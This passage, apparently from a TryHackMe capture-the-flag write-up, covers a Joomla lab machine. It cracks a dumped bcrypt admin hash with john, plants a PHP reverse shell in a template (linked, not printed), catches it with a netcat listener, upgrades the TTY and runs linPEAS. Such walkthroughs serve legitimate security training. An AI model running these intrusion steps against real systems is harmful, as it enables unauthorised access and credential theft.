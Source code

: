 ```
Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
```
We have Super User `jonah` with encrypted password `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`
Let's crack it using john

### John
```bash
john -format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash

Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

sxxxxxxxxx3     (?)
1g 0:00:12:38 DONE (2020-11-16 12:12) 0.001318g/s 61.76p/s 61.76c/s 61.76C/s thelma1..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
## Gaining Shell
Login in to http://10.10.48.197/administrator/
Using username: `jonah` and password: `sxxxxxxxxx3`
![](https://imgur.com/AZcS1sBl.png)
Go to  `templates`, edit the index.php with reverse php shell
for more details visit this [site](https://www.hackingarticles.in/joomla-reverse-shell/)
![](https://imgur.com/7Xh0voT.png)
Now, activate netcat to get a session with the following command :
```
nc -nlvp 1234
```
![](https://imgur.com/qkUgMgVl.png)
### Full TTYs
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

Inside the nc session Press `CTRL+Z` and add the following lines.
```bash
stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
I tried `sudo -l`, `crontab` found nothing.
It was time for [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
### linPEAS
This looks interesting!
![](https://imgur.com/H5r0le9l.png)
I looked in `configuration.php` and found
![](https://imgur.com/f1d7Q1jl.png)
